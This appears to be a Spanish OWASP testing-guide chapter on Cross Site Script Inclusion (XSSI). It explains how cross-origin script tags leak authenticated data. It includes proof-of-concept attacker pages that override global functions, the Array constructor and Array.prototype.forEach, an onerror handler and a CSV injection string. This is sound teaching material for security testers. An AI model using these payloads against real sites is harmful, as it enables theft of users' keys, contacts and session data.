

# Pruebas de Cross Site Script Inclusion

|ID          |
|------------|
|WSTG-CLNT-13|

## Resumen

La vulnerabilidad Cross Site Script Inclusion (XSSI) permite la fuga de datos sensibles a través de límites cross-origin o cross-domain. Los datos sensibles podrían incluir datos relacionados con autenticación (estados de login, cookies, tokens de auth, IDs de sesión, etc.) o datos personales o sensibles del usuario (direcciones de correo electrónico, números de teléfono, detalles de tarjetas de crédito, números de seguro social, etc.). XSSI es un ataque del lado del cliente similar a Cross Site Request Forgery (CSRF) pero tiene un propósito diferente. Mientras CSRF usa el contexto del usuario autenticado para ejecutar ciertas acciones que cambian el estado dentro de la página de una víctima (por ejemplo, transferir dinero a la cuenta del atacante, modificar privilegios, resetear contraseña, etc.), XSSI en cambio usa JavaScript en el lado del cliente para filtrar datos sensibles de sesiones autenticadas.

Por defecto, los sitios web solo tienen permitido acceder a datos si son del mismo origen. Este es un principio clave de seguridad de aplicaciones y se rige por la política del mismo origen (definida por [RFC 6454](https://tools.ietf.org/html/rfc6454)). Un origen se define como la combinación del esquema URI (HTTP o HTTPS), hostname y número de puerto. Sin embargo, esta política no es aplicable para inclusiones de etiquetas HTML `<script>`. Esta excepción es necesaria, ya que sin ella los sitios web no podrían consumir servicios de terceros, realizar análisis de tráfico, o usar plataformas de publicidad, etc.

Cuando el navegador abre un sitio web con etiquetas `<script>`, los recursos se obtienen del dominio cross-origin. Los recursos luego se ejecutan en el mismo contexto que el sitio que los incluye o el navegador, lo cual presenta la oportunidad de filtrar datos sensibles. En la mayoría de los casos, esto se logra usando JavaScript; sin embargo, la fuente del script no tiene que ser un archivo JavaScript con tipo `text/javascript` o extensión `.js`.

Vulnerabilidades de navegadores antiguos (IE9/10) permitían la fuga de datos vía mensajes de error de JavaScript en runtime, pero esas vulnerabilidades ahora han sido parcheadas por los vendors y se consideran menos relevantes. Estableciendo el atributo charset de la etiqueta `<script>`, un atacante o tester puede forzar la codificación UTF-16, permitiendo la fuga de datos para otros formatos de datos (por ejemplo, JSON) en algunos casos. Para más sobre estos ataques, ver [Ataques XSSI basados en identificadores](https://www.mbsd.jp/Whitepaper/xssi.pdf).

## Objetivos de Prueba

- Localizar datos sensibles a través del sistema.
- Evaluar la fuga de datos sensibles a través de varias técnicas.

## Cómo Probar

### Recopilar Datos Usando Sesiones de Usuario Autenticadas y No Autenticadas

Identificar qué endpoints son responsables de enviar datos sensibles, qué parámetros se requieren, e identificar todas las respuestas JavaScript relevantes dinámicas y estáticamente generadas usando sesiones de usuario autenticadas. Prestar especial atención a los datos sensibles enviados usando [JSONP](https://en.wikipedia.org/wiki/JSONP). Para encontrar respuestas JavaScript generadas dinámicamente, generar solicitudes autenticadas y no autenticadas, luego compararlas. Si son diferentes, significa que la respuesta es dinámica; de lo contrario es estática. Para simplificar esta tarea, se puede usar una herramienta como el [plugin de proxy Burp de Veit Hailperin](https://github.com/luh2/DetectDynamicJS). Asegurarse de verificar otros tipos de archivos además de JavaScript; XSSI no se limita a archivos JavaScript solos.

### Determinar si los Datos Sensibles Pueden Ser Filtrados Usando JavaScript

Los testers deberían analizar el código en busca de los siguientes vehículos para fuga de datos vía vulnerabilidades XSSI:

1. Variables globales
2. Parámetros de funciones globales
3. Robo de CSV (Comma Separated Values) con comillas
4. Errores de runtime de JavaScript
5. Cadena de prototipo usando `this`

### 1. Fuga de Datos Sensibles vía Variables Globales

Una clave de API se almacena en un archivo JavaScript con la URI `https://victim.com/internal/api.js` en el sitio web de la víctima, `victim.com`, el cual solo es accesible para usuarios autenticados. Un atacante configura un sitio web, `attackingwebsite.com`, y usa la etiqueta `<script>` para referirse al archivo JavaScript.

Aquí están los contenidos de `https://victim.com/internal/api.js`:

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

El sitio de ataque, `attackingwebsite.com`, tiene un `index.html` con el siguiente código:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```

En este ejemplo, una víctima está autenticada con `victim.com`. Un atacante atrae a la víctima a `attackingwebsite.com` vía ingeniería social, correos de phishing, etc. El navegador de la víctima entonces obtiene `api.js`, resultando en que los datos sensibles se filtren vía la variable global de JavaScript y se muestren usando `innerHTML`.

### 2. Fuga de Datos Sensibles vía Parámetros de Funciones Globales

Este ejemplo es similar al anterior, excepto que en este caso `attackingwebsite.com` usa una función JavaScript global para extraer los datos sensibles sobrescribiendo la función JavaScript global de la víctima.

Aquí están los contenidos de `https://victim.com/internal/api.js`:

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

El sitio de ataque, `attackingwebsite.com`, tiene un `index.html` con el siguiente código:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

Hay otras vulnerabilidades XSSI que pueden resultar en fuga de datos sensibles ya sea vía cadenas de prototipo de JavaScript o llamadas a funciones globales. Para más sobre estos ataques, ver [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

### 3. Fuga de Datos Sensibles vía Robo de CSV con Comillas

Para filtrar datos el atacante/tester tiene que ser capaz de inyectar código JavaScript en los datos CSV. El siguiente código de ejemplo es un extracto del whitepaper de Takeshi Terada [Ataques XSSI basados en identificadores](https://www.mbsd.jp/Whitepaper/xssi.pdf).

```text
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

En este ejemplo, usar las columnas `___` como puntos de inyección e insertar cadenas JavaScript en su lugar tiene el siguiente resultado.

```text
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

[Jeremiah Grossman escribió sobre una vulnerabilidad similar en Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) en 2006 que permitía la extracción de contactos de usuario en JSON. En este caso, los datos se recibieron de Gmail y se analizaron por el motor JavaScript del navegador usando un constructor Array no referenciado para filtrar los datos. Un atacante podría acceder a este Array con los datos sensibles definiendo y sobrescribiendo el constructor Array interno así:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="https://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

### 4. Fuga de Datos Sensibles vía Errores de Runtime de JavaScript

Los navegadores normalmente presentan [mensajes de error de JavaScript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Errors) estandarizados. Sin embargo, en el caso de IE9/10, los mensajes de error de runtime proporcionaban detalles adicionales que podían ser usados para filtrar datos. Por ejemplo, un sitio web `victim.com` sirve el siguiente contenido en la URI `https://victim.com/service/csvendpoint` para usuarios autenticados:

```text
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

Esta vulnerabilidad podría ser explotada con lo siguiente:

```html
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="https://victim.com/service/csvendpoint"></script>
```

Cuando el navegador intenta renderizar el contenido CSV como JavaScript, falla y filtra los datos sensibles:

\
*Figura 4.11.13-1: Mensaje de error de runtime de JavaScript*

### 5. Fuga de Datos Sensibles vía Cadena de Prototipo Usando `this`

En JavaScript, la palabra clave `this` tiene ámbito dinámico. Esto significa que si se llama a una función sobre un objeto, `this` apuntará a este objeto aunque la función llamada podría no pertenecer al objeto mismo. Este comportamiento puede ser usado para filtrar datos. En el siguiente ejemplo de la [página de demostración de Sebastian Leike](http://sebastian-lekies.de/leak/), los datos sensibles se almacenan en un Array. Un atacante puede sobrescribir `Array.prototype.forEach` con una función controlada por el atacante. Si algún código llama a la función `forEach` en una instancia de array que contiene valores sensibles, la función controlada por el atacante será invocada con `this` apuntando al objeto que contiene los datos sensibles.

Aquí hay un extracto de un archivo JavaScript que contiene datos sensibles, `javascript.js`:

```javascript
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

Los datos sensibles pueden ser filtrados con el siguiente código JavaScript:

```html
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="https://victim.com/..../javascript.js"></script>
...
```
